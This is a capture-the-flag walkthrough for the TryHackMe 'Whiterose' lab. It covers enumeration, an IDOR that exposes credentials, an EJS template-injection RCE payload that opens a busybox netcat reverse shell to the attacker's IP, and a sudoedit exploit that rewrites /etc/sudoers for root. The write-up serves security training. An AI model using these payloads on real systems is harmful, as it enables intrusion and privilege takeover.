









## TryHackMe Room - [Whiterose](https://tryhackme.com/room/whiterose)

This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!

Go ahead and start the machine, it may take a few minutes to fully start up.

**Note:** You will need these credentials: `Olivia Cortez:<REDACTED>`

## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -vv <TARGET_IP> -sV
```

**Results:**
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have SSH and HTTP services running. Let's explore the web application on port 80.

### Web Application Discovery

When we try to visit the application, it redirects to `http://cyprusbank.thm/`. Let's add it to our `/etc/hosts` file:

```bash
echo "<TARGET_IP>   cyprusbank.thm" >> /etc/hosts
```

Now, when we visit the website we see a static webpage with a message referring to that it's under maintenance.



### Directory Enumeration

Let's try `gobuster` to enumerate some files and directories:

```bash
gobuster dir -u cyprusbank.thm -w /usr/share/wordlists/dirb/common.txt -t 300 -x .php,.txt,.html,.bak,.zip
```

**Results:**
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cyprusbank.thm
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,bak,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 356 / 27690 (1.29%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 1704 / 27690 (6.15%)
===============================================================
Finished
===============================================================
```

Nothing major here. Let's try subdomain enumeration.

### Subdomain Enumeration

Using `ffuf` to enumerate subdomains:

```bash
ffuf -u http://cyprusbank.thm -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 57
```

**Results:**
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 57
________________________________________________

:: Progress: [40/4997] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error
www                     [Status: 200, Size: 252, Words: 19, Lines: 9]
:: Progress: [44/4997] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1]
:: Progress: [122/4997] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error
:: Progress: [619/4997] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error
WWW                     [Status: 200, Size: 252, Words: 19, Lines: 9]
```

So, we have `admin.cyprusbank.thm`. Let's also add this to our `/etc/hosts` file:

```bash
echo "<TARGET_IP>   admin.cyprusbank.thm" >> /etc/hosts
```

## Initial Access

### Login Page

Now, we visit the endpoint:



Let's use the provided credentials to login here.

**Post-login Dashboard:**



Post login, we see various transactions and many endpoints. Out of which most interesting was:

```
http://admin.cyprusbank.thm/messages/?c=5
```

We could see some admin chats here. But the interesting thing here was the parameter `c`, changing its value to a higher number like 20 revealed more chats and that contains Gayle's credentials, who has admin level permissions.



**Credentials Found:**
```
Gayle Bev: Of course! My password is '<REDACTED>'
```

Let's login as Gayle (Admin).

### Finding Tyrell's Phone Number

Next, we can go to the search page and search for the phone number of Tyrell, which will also answer the first question of the room:

```
http://admin.cyprusbank.thm/search?name=Tyrell+Wellick
```



### Server-Side Template Injection (SSTI)

Now, after exploring various endpoints, I went back to the reflection of the password on the Settings page where we have the option to update the password for any user.

I tried XSS, SSTi, etc. payloads but none worked until I tried manipulating parameters and the error message leaked the tech stack:

```
ReferenceError: /home/web/app/views/settings.ejs:14<br> &nbsp; &nbsp;12| &nbsp; &nbsp; &nbsp; &nbsp; &lt;div class=&quot;alert alert-info mb-3&quot;&gt;&lt;%= message %&gt;&lt;/div&gt;<br> &nbsp; &nbsp;13| &nbsp; &nbsp; &nbsp; &lt;% } %&gt;<br> &gt;&gt; 14| &nbsp; &nbsp; &nbsp; &lt;% if (password != -1) { %&gt;<br> &nbsp; &nbsp;15| &nbsp; &nbsp; &nbsp; &nbsp; &lt;div class=&quot;alert alert-success mb-3&quot;&gt;Password updated to &#39;&lt;%= password %&gt;&#39;&lt;/div&gt;<br> &nbsp; &nbsp;16| &nbsp; &nbsp; &nbsp; &lt;% } %&gt;<br> &nbsp; &nbsp;17| &nbsp; &nbsp; &nbsp; &lt;% if (typeof error != &#39;undefined&#39;) { %&gt;<br><br>password is not defined<br> &nbsp; &nbsp;at eval (&quot;/home/web/app/views/settings.ejs&quot;:27:8)<br> &nbsp; &nbsp;at settings (/home/web/app/node_modules/ejs/lib/ejs.js:692:17)<br> &nbsp; &nbsp;at tryHandleCache (/home/web/app/node_modules/ejs/lib/ejs.js:272:36)<br> &nbsp; &nbsp;at View.exports.renderFile [as engine] (/home/web/app/node_modules/ejs/lib/ejs.js:489:10)<br> &nbsp; &nbsp;at View.render (/home/web/app/node_modules/express/lib/view.js:135:8)<br> &nbsp; &nbsp;at tryRender (/home/web/app/node_modules/express/lib/application.js:657:10)<br> &nbsp; &nbsp;at Function.render (/home/web/app/node_modules/express/lib/application.js:609:3)<br> &nbsp; &nbsp;at ServerResponse.render (/home/web/app/node_modules/express/lib/response.js:1039:7)<br> &nbsp; &nbsp;at /home/web/app/routes/settings.js:27:7<br> &nbsp; &nbsp;at processTicksAndRejections (node:internal/process/task_queues:96:5)
```

This led to another attack path for exploiting the EJS Server-Side Template Injection RCE (CVE-2022-29078).



**Reference:** https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

### Remote Code Execution

Using the payload in the settings page (via POST request with the parameter):

```
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
```

Start a netcat listener:

```bash
nc -lnvp 1337
```

But here, `nc` and a lot of other options didn't work, so I tried `busybox` and it worked:

```
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc <YOUR_IP> 1337 -e sh');s
```

Send this payload as a POST parameter to the settings endpoint.



**Reverse Shell Obtained:**
```
web@cyprusbank:~/app$ 
```

Let's stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


## User Flag

Next, we read the user flag:

```bash
web@cyprusbank:~/app$ cat /home/web/user.txt
<REDACTED>
```



## Privilege Escalation

### Sudo Misconfiguration

Now, for privilege escalation, let's check for sudo misconfigurations:

```bash
sudo -l
```

**Results:**
```
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Perfect! We can use `sudoedit` to edit a file as root. This is vulnerable to CVE-2023-22809.

**References:**
- https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc
- https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf

### Exploiting Sudoedit

Here is a quick explanation of why this works:

1. **`export EDITOR="vi -- /etc/sudoers"`**

   This command sets the EDITOR environment variable to vi (a text editor) but appends an additional argument, `-- /etc/sudoers`. This argument tricks sudoedit into editing the `/etc/sudoers` file instead of the intended file. The `--` ensures any following input is treated as a file, bypassing checks for unexpected input.

2. **`sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm`**

   This runs sudoedit with the target file `/etc/nginx/sites-available/admin.cyprusbank.thm`. However, because the EDITOR variable has been tampered with, sudoedit instead opens the `/etc/sudoers` file specified in step 1. This exploits the flaw in how sudoedit processes additional arguments.

3. **Add `web ALL=(root) NOPASSWD: ALL` to the sudoers file.**

   By adding this line, you grant the user `web` full root privileges without requiring a password. This effectively escalates the attacker's privileges, allowing them to execute any command as root.

**Execution:**

```bash
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

In the vi editor, add the following line:
```
web ALL=(root) NOPASSWD: ALL
```

Save and exit (`:wq` in vi).

Next, execute `sudo su` to get root access:

```bash
sudo su
```

## Root Flag

Now, let's retrieve the root flag:

```bash
cd /root
cat root.txt
<REDACTED>
```



Challenge solved!

## References

1. https://security.snyk.io/vuln/SNYK-JS-EJS-2803307
2. https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc
3. https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf

---

## Answers

### Task 1 - Whiterose

> This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!

1. **What's Tyrell Wellick's phone number?**

   **Ans.** `<REDACTED>`

2. **What is the user.txt flag?**

   **Ans.** `<REDACTED>`

3. **What is the root.txt flag?**

   **Ans.** `<REDACTED>`
